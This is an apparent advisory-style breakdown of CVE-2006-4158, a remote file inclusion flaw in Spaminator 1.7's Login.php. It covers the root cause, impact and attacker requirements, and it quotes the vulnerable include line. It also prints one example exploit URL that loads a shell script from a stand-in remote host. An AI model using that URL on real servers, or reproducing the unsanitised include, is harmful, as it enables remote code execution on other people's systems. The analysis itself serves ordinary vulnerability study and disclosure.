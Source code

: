 Based on the provided content, here's a breakdown of the vulnerability associated with CVE-2006-4158:

**Root Cause of Vulnerability:**
The root cause is a **Remote File Inclusion (RFI)** vulnerability in the Spaminator 1.7 application. Specifically, the `Login.php` script includes a file specified by the `$page` parameter without proper sanitization or validation.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion:** The application directly includes a file specified by a user-controlled parameter.
- **Lack of Input Sanitization:** The application fails to sanitize or validate the `$page` parameter, allowing for arbitrary URLs to be included.

**Impact of Exploitation:**
- **Remote Code Execution:** By including a malicious PHP script from a remote server, an attacker can execute arbitrary code on the vulnerable server, potentially leading to full system compromise.
- **Data Theft/Manipulation:** The attacker can gain access to sensitive data, modify website content, or inject malicious scripts.

**Attack Vectors:**
- The primary attack vector is through the `page` parameter in the `Login.php` script.
- An attacker can craft a URL with the malicious remote file URL as a value for the page parameter.
- Example URL: `http://server/dir_spaminator/src/Login.php?page=http://www.evalsite.com/shell.php?`

**Required Attacker Capabilities/Position:**
- The attacker needs to be able to send HTTP requests to the vulnerable server.
- The attacker also needs access to a server that can host a malicious PHP script.

**Additional Details:**
- The Exploit-DB entry provides more details than the basic CVE description.
- It includes the vulnerable file path, example URL for exploitation and a link to the vulnerable application's source code.
- The `include "$page.php";` line in the `Login.php` script is highlighted as the vulnerable code.